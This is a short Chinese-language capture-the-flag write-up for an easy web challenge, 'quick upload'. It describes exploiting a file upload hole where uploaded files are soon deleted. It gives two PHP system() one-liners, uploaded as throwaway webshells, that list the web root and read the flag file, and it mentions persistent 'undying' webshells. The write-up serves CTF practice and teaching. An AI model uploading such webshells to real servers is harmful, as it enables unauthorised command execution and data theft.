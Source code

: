 ### 1.题目名称

quick upload



### 2.题目类型

web(easy)



### 3.考察知识点

文件上传漏洞/php脚本能力



### 4.解题思路

测试后发现，存在文件上传漏洞，但是上传的php文件很快会被删除。所以，此处上传的php脚本和普通的一句话木马不一样，应当是直接访问执行的php木马，或者是不死马。

示例：

```Php
<?php system('ls /var/www/html');?>
```

```php
<?php system('cat flag_efc311a92467d0db4712ed8acf7cb749.php');?>
```













